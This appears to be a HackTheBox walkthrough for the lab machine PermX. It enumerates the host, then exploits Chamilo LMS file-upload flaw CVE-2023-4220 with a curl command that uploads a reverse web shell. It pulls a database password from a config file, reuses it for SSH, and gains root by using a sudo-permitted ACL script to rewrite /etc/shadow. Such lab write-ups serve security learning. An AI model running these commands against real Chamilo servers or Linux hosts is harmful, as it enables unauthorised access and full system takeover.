```yaml
---
title: "PermX machine on HTB"
classes: wide
header:  
  teaser: /assets/images/posts/writeups/permx.jpg
  #overlay_image: /assets/images/main/header3.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "What can go wrong when a free and open source LMS is vulnerable? Basically everything! This time was Chamilo, next time..."
description: "Walkthrough on PermX machine from HackTheBox"
categories:
  - writeups
tags:
  - chamilo
  - LMS
  - curl
  - HTB
  - CTF
  - subdomain
  - writeup
  - HackTheBox
  - Easy
toc: false
---
```


<img src="/assets/images/posts/writeups/permx.jpg" alt="PermX" width="500" class="align-center">

What can go wrong when a free and open source LMS is vulnerable? Basically everything! This time was Chamilo, next time...

## Information gathering

### Enumeration

#### nmap

Command:
```sh
nmap -sC -sV -p- -A 10.10.11.23
```

Results:
```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: eLEARNING
|_http-server-header: Apache/2.4.52 (Ubuntu)
```
#### ffuf

Command:
```sh
ffuf -w /usr/share/wordlists/amass/subdomains-top1mil-5000.txt -H 'Host: FUZZ.permx.htb' -u http://permx.htb -fc 302
```

Results:
```sh
lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 71ms]
www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 48ms]
WWW                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 48ms]
```

## Exploitation

### Foothold
1. Check subdomain lms.permx.htb is has an installation of Chamilo LMS
2. The LMS is vulnerable to file upload CVE-2023-4220: https://starlabs.sg/advisories/23/23-4220/?source=post_page-----136bfcb54ac2--------------------------------
3. Using curl we can upload a revwebshell
```sh
curl -F 'bigUploadFile=@rizi85_was_here.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```
4. Check the folder were updates are stored and run the shell:
```sh
http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/
```
5. Once on the server check files /var/www/chamilo/app/config there is a configuration.php containing DB credentials
```sh
// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;
```
6. Checking home folder or content of /etc/passwd we can see there is a user called "mtz" on the machine, we can SSH with this user and DB password

#### Data exfiltration
1. Get the content of the user flag: **[UserFlag]**

### Privilege escalation
1. Run sudo -l and see user mtz can run:
```sh
User mtz may run the following commands on permx:  
(ALL : ALL) NOPASSWD: /opt/acl.sh
```
2. For privesc:
```sh
mtz@permx:~$ ln -s / root  
mtz@permx:~$ sudo /opt/acl.sh mtz rwx /home/mtz/root/etc/shadow  
mtz@permx:~$ nano /etc/shadow
```
3. Now we will copy the mtz hash in place of root hash and will login with the same password
4. Finally we can su root 

#### Data exfiltration
1. Get the root flag: **[RootFlag]**